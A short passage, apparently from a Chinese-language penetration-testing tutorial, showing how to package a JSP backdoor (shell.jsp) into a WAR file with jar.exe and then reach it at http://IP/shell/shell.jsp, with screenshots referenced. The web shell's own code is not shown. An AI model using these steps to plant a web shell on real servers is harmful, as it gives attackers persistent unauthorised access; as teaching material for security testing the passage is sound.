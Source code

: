 ```bash
jar.exe -cvf shell.war shell.jsp # shell.jsp放后门
```

<p align="center"><img src="img/2/23.png" width="800px"></p>

访问路径

```
http://IP/shell/shell.jsp
```

<p align="center"><img src="img/2/24.png" width="800px"></p>
